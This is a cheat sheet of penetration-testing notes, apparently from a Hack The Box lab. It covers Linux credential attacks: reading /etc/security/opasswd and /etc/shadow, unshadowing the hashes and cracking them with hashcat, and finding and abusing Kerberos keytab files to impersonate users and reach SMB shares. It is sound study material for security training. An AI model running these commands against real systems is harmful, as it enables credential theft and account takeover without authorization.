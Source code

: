 #### Opasswd

The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

- `sudo cat /etc/security/opasswd`

### Cracking Linux Credentials

#### Unshadow

```bash
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

#### Hashcat - Cracking Unshadowed Hashes

- `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`

#### Hashcat - Cracking MD5 Hashes

- `cat md5-hashes.list`
- `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`

### keytab files

Another everyday use of Kerberos in Linux is with keytab files. A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password). You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password. However, when you change your password, you must recreate all your keytab files.

Keytab files commonly allow scripts to authenticate automatically using Kerberos without requiring human interaction or access to a password stored in a plain text file. For example, a script can use a keytab file to access files stored in the Windows share folder.

- `find / -name *keytab* -ls 2>/dev/null` search for keytab files
- `crontab -l` (possible to find keytab in cron jobs)
- `klist -k -t` listing keytab informations
- `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab` if you found another user's keytab file (here carlos) you can impersonate him with this command. And then you can use `klist` again
- `smbclient //dc01/carlos -k -c ls` finally you can connect to this user's smb share.

#### keytab extract

- `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab` Extracting Keytab Hashes with KeyTabExtract

> then you can try to crack the hash with crackstation or hashcat or john. You can also perform a pass the hash attack with the ntlm hash

- `su - carlos@inlanefreight.htb` you can login as the other user
